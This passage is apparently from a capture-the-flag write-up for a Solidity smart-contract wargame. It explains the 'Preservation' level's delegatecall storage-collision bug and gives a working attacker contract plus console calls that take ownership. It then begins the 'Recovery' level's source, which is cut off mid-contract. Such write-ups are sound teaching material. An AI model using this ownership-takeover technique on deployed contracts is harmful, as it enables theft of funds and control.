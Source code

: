 To solve this challenge , we need to claim the ownership of the contract.

As we can see , there is a delegatecall in the setFirstTime function , the Sample library contract is also there.

The first slot in the Library Contract is a storedTime when A contract delegatecalls another contract , the another contract logic will executed and the storage of the contract which called modifies,Here when we set the timeStamp it actually stores in the timeZone1Library address variable.

So we can set the LibraryContract address by using setFirstTime function by passing our attacker contract address.

In attacker contract the variables should be like in the same order of the Perservation contract.

We create a function called seTime in attacker contract and update the owner varible from it . Then it changes the owner of the Perservation Contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract PreservationAttack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    function setTime(uint _time) public {
        owner = address(_time);
    }
}

```

```js
await contract.setFirstTime("PreservationAttack Address");
await contract.setFirstTime(player);
```

## 17 Recovery

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Recovery {
  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);

  }
}
contract SimpleToken {
  string public name;
  mapping (address => uint) public balances;
  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }
  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }
  // allow transfers of tokens
  function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }
  // clean up after ourselves
```